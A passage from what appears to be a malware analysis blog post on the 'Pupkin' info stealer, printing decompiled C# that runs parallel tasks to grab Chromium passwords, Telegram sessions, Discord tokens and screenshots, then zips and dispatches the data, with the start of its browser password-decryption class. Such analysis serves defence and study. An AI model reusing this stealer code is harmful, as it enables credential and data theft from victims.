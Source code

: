 ```csharp
				Desktop.GrabberDesktop();
			});
			Task task3 = Task.Run(delegate
			{
				Telegram.GrabberTelegramSession();
			});
			Task task4 = Task.Run(delegate
			{
				Discord.GrabberDiscordToken();
			});
			Task task5 = Task.Run(delegate
			{
				Screenshot.GrabberScreenshot();
			});
			Task.WaitAll(new Task[] { task, task2, task3, task4, task5 });
			DataDispatch.ZipCompression();
			DataDispatch.Dispatch(Variables.ID);
		}
	}
}
```

When the info stealer is launched, the first thing `Main{}` executes is multiple asynchronous tasks concurrently to collect sensitive data from different sources:

- Decrypting saved passwords from Chromium-based browsers.
- Grabbing desktop information (system details or user activities).
- Extracting Telegram session data.
- Retrieving Discord tokens.
- Capturing screenshots of the user's screen.

Once all tasks are complete, the collected data is compressed into a zip file and then dispatched to exfiltrate the data.

Let's analyse each function used by the Pupkin stealer step by step:

# Stage 3: Chromium

```csharp
using System;
using System.Collections.Generic;
using System.Data.SQLite;
using System.Diagnostics;
using System.IO;
using System.Security.Cryptography;
using System.Text;
using Helpers;
using Main;

namespace Browsers
{
    public class Chromium
    {
        public class ChromiumPasswords
        {
            public static void DecryptingBrowsersPasswords()
            {
                Directory.CreateDirectory(Variables.temp + Variables.username + "\\Passwords");

                if (File.Exists(Variables.LoginDataPathOperaGX))
                {
                    DecryptBrowserPasswords(Variables.LoginDataPathOperaGX, FunctionsForStealer.LocalStateKeys.GetKeyOperaGX(), "OperaGX.txt", "operagx", out Variables.isOperaGXFound, out Variables.foundOperaGXPasswords);
```